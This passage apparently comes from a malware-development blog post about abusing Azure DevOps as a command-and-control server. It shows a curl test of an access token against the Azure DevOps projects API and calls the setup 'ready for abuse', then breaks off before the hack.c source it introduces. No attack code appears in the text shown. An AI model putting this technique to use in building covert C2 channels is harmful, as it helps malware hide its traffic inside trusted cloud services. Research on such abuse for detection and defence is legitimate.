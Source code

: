 ![malware](/assets/images/171/2025-08-12_08-38.png){:class="img-responsive"}    

In my case full access, but you need `read` and `write` permissions - it's enough for our scenario.      

For checking correctness, test API via `curl`:     

```bash
curl -u ":your token here something like 9O1QFlG1YxLe88F65PfHutr...........CAAAAAAAAAAAAASAZDOOcAA" -X GET "https://dev.azure.com/cocomelonkz/_apis/projects?api-version=7.1"
```

![malware](/assets/images/171/2025-08-11_13-14.png){:class="img-responsive"}    

As you can see, you should see JSON with your project list. If you get that, your Azure DevOps "C2 server" is ready for abuse.     

### practical example 1

The simplest way to talk to Azure DevOps REST API is to hit an endpoint, for example:    

```bash
/cocomelonkz/_apis/projects?api-version=7.1
```

In this case, full source code looks like this `hack.c`:     
